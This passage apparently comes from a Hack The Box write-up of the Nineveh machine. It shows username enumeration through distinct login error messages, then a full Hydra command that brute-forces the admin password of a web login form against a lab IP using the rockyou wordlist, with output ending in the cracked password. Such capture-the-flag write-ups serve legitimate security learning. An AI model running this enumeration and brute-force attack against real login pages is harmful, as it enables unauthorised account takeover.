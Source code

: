 <img src="/assets/img/blog/htb-nineveh/htb-nineveh-02.png">  

When you try to login with a name that doesn't exist (for example v3ded) you will get a message saying: `invalid username`. Notice the difference in the image below where I try to login as admin: 

<img src="/assets/img/blog/htb-nineveh/htb-nineveh-03.png">

The login page is telling us which users exist and which do not! After confirming that the *admin* username is correct I start a bruteforce attack via Hydra.
```console
root@EdgeOfNight:~# hydra 10.10.10.43 -l admin -P /usr/share/wordlists/rockyou.txt http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid Password!" -V

Hydra v8.5 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
Hydra (http://www.thc.org/thc-hydra) starting at 2017-12-15 15:52:15
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking service http-post-form on port 80
[DATA] with additional data /department/login.php:username=^USER^&password=^PASS^:Invalid Password!
[ATTEMPT] target 10.10.10.43 - login "admin" - pass "123456" - 1 of 14344399 [child 0] (0/0)
[ATTEMPT] target 10.10.10.43 - login "admin" - pass "12345" - 2 of 14344399 [child 1] (0/0)
[ATTEMPT] target 10.10.10.43 - login "admin" - pass "123456789" - 3 of 14344399 [child 2] (0/0)
[ATTEMPT] target 10.10.10.43 - login "admin" - pass "password" - 4 of 14344399 [child 3] (0/0)
[ATTEMPT] target 10.10.10.43 - login "admin" - pass "iloveyou" - 5 of 14344399 [child 4] (0/0)
[ATTEMPT] target 10.10.10.43 - login "admin" - pass "princess" - 6 of 14344399 [child 5] (0/0)
[ATTEMPT] target 10.10.10.43 - login "admin" - pass "1234567" - 7 of 14344399 [child 6] (0/0)
[ATTEMPT] target 10.10.10.43 - login "admin" - pass "rockyou" - 8 of 14344399 [child 7] (0/0)
[ATTEMPT] target 10.10.10.43 - login "admin" - pass "12345678" - 9 of 14344399 [child 8] (0/0)
[ATTEMPT] target 10.10.10.43 - login "admin" - pass "abc123" - 10 of 14344399 [child 9] (0/0)
[ATTEMPT] target 10.10.10.43 - login "admin" - pass "nicole" - 11 of 14344399 [child 10] (0/0)
[ATTEMPT] target 10.10.10.43 - login "admin" - pass "daniel" - 12 of 14344399 [child 11] (0/0)
[ATTEMPT] target 10.10.10.43 - login "admin" - pass "babygirl" - 13 of 14344399 [child 12] (0/0)
[ATTEMPT] target 10.10.10.43 - login "admin" - pass "monkey" - 14 of 14344399 [child 13] (0/0)
[ATTEMPT] target 10.10.10.43 - login "admin" - pass "lovely" - 15 of 14344399 [child 14] (0/0)
[ATTEMPT] target 10.10.10.43 - login "admin" - pass "jessica" - 16 of 14344399 [child 15] (0/0)
[ATTEMPT] target 10.10.10.43 - login "admin" - pass "654321" - 17 of 14344399 [child 15] (0/0)
... [Many attempts later] ...
[ATTEMPT] target 10.10.10.43 - login "admin" - pass "candys" - 4579 of 14344399 [child 12] (0/0)
[ATTEMPT] target 10.10.10.43 - login "admin" - pass "bonnie1" - 4580 of 14344399 [child 11] (0/0)
[ATTEMPT] target 10.10.10.43 - login "admin" - pass "1truelove" - 4581 of 14344399 [child 8] (0/0)
[80][http-post-form] host: 10.10.10.43   login: admin   password: 1q2w3e4r5t
1 of 1 target successfully completed, 1 valid password found
```
